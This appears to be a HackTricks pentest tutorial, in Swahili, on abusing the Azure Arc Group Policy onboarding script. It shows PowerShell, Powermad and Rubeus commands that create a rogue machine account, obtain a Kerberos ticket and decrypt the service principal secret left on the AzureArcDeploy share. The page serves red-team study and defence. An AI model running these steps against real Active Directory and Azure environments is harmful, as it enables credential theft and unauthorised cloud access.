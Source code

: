 # Az - Azure Arc Script ya Kuweka GPO Inayoweza Kudhuriwa

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

- Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
- Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
- Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
- **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### Kutambua Matatizo

Azure Arc inaruhusu uingizaji wa seva mpya za ndani (seva zilizojiunga na kikoa) kwenye Azure Arc kwa kutumia mbinu ya Group Policy Object. Ili kurahisisha hili, Microsoft hutoa zana ya kuweka inayohitajika kuanzisha mchakato wa kujiunga. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, hati zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Inapotekelezwa, hati ya DeployGPO.ps1 inafanya vitendo vifuatavyo:

1. Inaunda GPO ya Kujiunga na Seva za Azure Arc ndani ya kikoa cha ndani.
2. Inakopi hati ya kujiunga ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyoundwa kwa mchakato wa kujiunga, ambayo pia ina pakiti ya usanidi ya Windows.

Wakati wa kukimbia hati hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili muhimu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama kikoa, FQDN ya seva inayohifadhi sehemu, na jina la sehemu. Maelezo zaidi kama vile kitambulisho cha mpangaji, kikundi cha rasilimali, na habari nyingine muhimu lazima pia zitolewe kwa hati.

Siri iliyofichwa inazalishwa kwenye saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwenye sehemu kwa kutumia encryption ya DPAPI-NG. Siri iliyofichwa inahifadhiwa kwenye faili iliyoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana kwenye hati ya DeployGPO.ps1, ambapo encryption inatekelezwa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama viingilio. Descripter inajumuisha SIDs za vikundi vya Domain Computer na Domain Controller, ikihakikisha kuwa ServicePrincipalSecret inaweza kufichuliwa tu na vikundi vya usalama vya Domain Controllers na Domain Computers, kama ilivyobainishwa katika maoni ya hati.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Kuchexploit

Tunayo hali zifuatazo:

1. Tumefanikiwa kuingia kwenye mtandao wa ndani.
2. Tunayo uwezo wa kuunda au kuchukua udhibiti wa akaunti ya kompyuta ndani ya Active Directory.
3. Tumegundua sehemu ya mtandao inayoitwa AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia ya kawaida ni kutumia kiwango cha akaunti ya mashine. Njia nyingine inahusisha kudhoofisha akaunti ya mashine kupitia ACLs zenye mapungufu au mizunguko mingine mbalimbali ya usanidi.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Baada ya akaunti ya mashine kupatikana, niwezekano kuthibitisha kutumia akaunti hii. Tunaweza kutumia amri ya runas.exe pamoja na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT kwa akaunti yetu ya kompyuta iliyohifadhiwa kumbukani, tunaweza kutumia script ifuatayo kufichua siri ya mkuu wa huduma.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Kwa upande mwingine, tunaweza kutumia [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Kwa wakati huu, tunaweza kukusanya habari iliyobaki inayohitajika kuunganisha Azure kutoka kwa faili ya ArcInfo.json, ambayo imehifadhiwa kwenye folda sawa ya mtandao kama faili ya encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na zingine. Kwa habari hii, tunaweza kutumia Azure CLI kujithibitisha kama service principal iliyoharibiwa.

## Marejeo

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
